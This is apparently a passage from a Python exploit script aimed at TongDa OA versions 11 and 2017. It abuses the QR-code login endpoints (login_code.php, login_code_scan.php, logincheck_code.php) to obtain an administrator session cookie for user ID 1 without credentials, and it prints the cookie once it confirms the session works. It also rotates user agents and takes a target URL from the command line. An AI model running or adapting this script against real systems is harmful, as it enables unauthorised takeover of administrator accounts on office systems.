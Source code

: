 ```python
        resText = str(res.text).split('{')
        codeUid = resText[-1].replace('}"}', '').replace('\r\n', '')
        getSessUrl = url+'/logincheck_code.php'
        res = requests.post(
            getSessUrl, data={'CODEUID': '{'+codeUid+'}', 'UID': int(1)},headers=headers)
        tmp_cookie = res.headers['Set-Cookie']
        headers["User-Agent"] = choice(USER_AGENTS)
        headers["Cookie"] = tmp_cookie
        check_available = requests.get(url + '/general/index.php',headers=headers)
        if '用户未登录' not in check_available.text:
            if '重新登录' not in check_available.text:
                print('[+]Get Available COOKIE:' + tmp_cookie)
        else:
            print('[-]Something Wrong With ' + url + ',Maybe Not Vulnerable.')
    except:
        print('[-]Something Wrong With '+url)



def get2017Session(url):
    checkUrl = url+'/ispirit/login_code.php'
    try:
        headers["User-Agent"] = choice(USER_AGENTS)
        res = requests.get(checkUrl,headers=headers)
        resText = json.loads(res.text)
        codeUid = resText['codeuid']
        codeScanUrl = url+'/general/login_code_scan.php'
        res = requests.post(codeScanUrl, data={'codeuid': codeUid, 'uid': int(
            1), 'source': 'pc', 'type': 'confirm', 'username': 'admin'},headers=headers)
        resText = json.loads(res.text)
        status = resText['status']
        if status == str(1):
            getCodeUidUrl = url+'/ispirit/login_code_check.php?codeuid='+codeUid
            res = requests.get(getCodeUidUrl)
            tmp_cookie = res.headers['Set-Cookie']
            headers["User-Agent"] = choice(USER_AGENTS)
            headers["Cookie"] = tmp_cookie
            check_available = requests.get(url + '/general/index.php',headers=headers)
            if '用户未登录' not in check_available.text:
                if '重新登录' not in check_available.text:
                    print('[+]Get Available COOKIE:' + tmp_cookie)
            else:
                print('[-]Something Wrong With ' + url + ',Maybe Not Vulnerable.')
        else:
            print('[-]Something Wrong With '+url  + ' Maybe Not Vulnerable ?')
    except:
        print('[-]Something Wrong With '+url)


if __name__ == "__main__":
    parser = argparse.ArgumentParser()
    parser.add_argument(
        "-v",
        "--tdoaversion",
        type=int,
        choices=[11, 2017],
        help="Target TongDa OA Version. e.g: -v 11、-v 2017")
    parser.add_argument(
        "-url",
        "--targeturl",
        type=str,
        help="Target URL. e.g: -url 192.168.2.1、-url http://192.168.2.1"
    )
```